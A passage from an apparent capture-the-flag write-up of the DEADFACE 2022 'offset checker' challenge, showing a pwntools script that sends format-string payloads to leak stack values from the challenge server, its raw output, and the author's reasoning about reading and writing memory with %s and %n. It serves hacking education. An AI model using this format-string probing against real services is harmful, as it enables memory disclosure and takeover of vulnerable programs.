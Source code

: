 ```
```
Somehow, the output that I can see is limited to 10 characters.

The next step is to see where my format string starts intersecting with my input, as well as get a good view of the stack just in case the flag is stored there somewhere based on the prompt. I made a looping pwntools script to view the first 80 addresses on the stack:
```
from pwn import *
import string

target = remote('offsetcheck.deadface.io', 31337)

for i in range(1, 80):
    print(target.recvuntil(b'sent to the buffer:'))
    payload = b'%' + str(i).encode('ascii') + b'$p'   
    print(payload)
    payload += b'a' * (100 - len(payload))
    target.sendline(payload)

    (target.recvuntil(b'Please enter what showed up in EIP:'))
    target.sendline(b'b')

target.interactive()
```
Some of the highlights included an address leaked at index 4 that is 4 bytes long, indicating that this is a 32-bit binary:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ python3 offset_checker_stack_scan.py
[+] Opening connection to offsetcheck.deadface.io on port 31337: Done
b'Please enter the string (max 200 char) sent to the buffer:'
b'%1$p'
b'\n\x00Searching buffer:\n\x000x5aaaaaaa\x00...\n\x00\x00\x00\x00\x00Substring found at position 0\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Please enter the string (max 200 char) sent to the buffer:'
b'%2$p'
b'\n\x00Searching buffer:\n\x00b\n\x00\x00\x00\x00\x00\x00\x00\x00\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%3$p'
b'\n\x00Searching buffer:\n\x00aaaaaaaaaa\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%4$p'
b'\n\x00Searching buffer:\n\x000xff972821\x00...\n\x00\x00\x00\x00\x00Substring found at position 0\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Please enter the string (max 200 char) sent to the buffer:'
```
And at an index of 29, it looks like it starts printing my input back at me in intervals of four bytes of hex; this will allow me to input my own address and use %s to read from that address, or %n to write to that address. 
```
b'%29$p'
b'\n\x00Searching buffer:\n\x000x24393225\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%30$p'
b'\n\x00Searching buffer:\n\x000x61616170\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%31$p'
b'\n\x00Searching buffer:\n\x000x61616161\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%32$p'
b'\n\x00Searching buffer:\n\x000x61616161\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
b'%33$p'
```